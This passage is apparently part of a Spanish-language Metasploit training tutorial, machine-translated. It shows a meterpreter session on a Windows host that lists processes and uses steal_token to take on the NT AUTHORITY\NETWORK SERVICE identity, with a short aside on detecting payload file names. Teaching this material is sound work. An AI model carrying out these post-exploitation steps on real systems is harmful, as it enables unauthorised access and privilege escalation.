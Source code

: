 Desde la perspectiva del Sysadmin, encontrar archivos que coincidan con este tipo de nombre o ligeras variaciones de la misma pueden ser beneficiosos para detener un ataque en el medio de sus pistas. La orientación de Regex coincide con nombres de archivo o firmas como anteriormente ni siquiera permitirá que un atacante genere una carcasa meterpreter antes de ser cortada por las medidas de seguridad configuradas correctamente.

Continuamos más lejos con nuestras hazañas. Al intentar ver con qué usuario estamos ejecutando, recibimos un mensaje de acceso denegado. Deberíamos intentar migrar nuestro proceso a un usuario con más privilegios.

### **MSF - migración de meterpreter**

Meterpréter

```
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 216   1080  cidaemon.exe
 272   4     smss.exe
 292   1080  cidaemon.exe
<...SNIP...>

 1712  396   alg.exe
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe

meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE

```
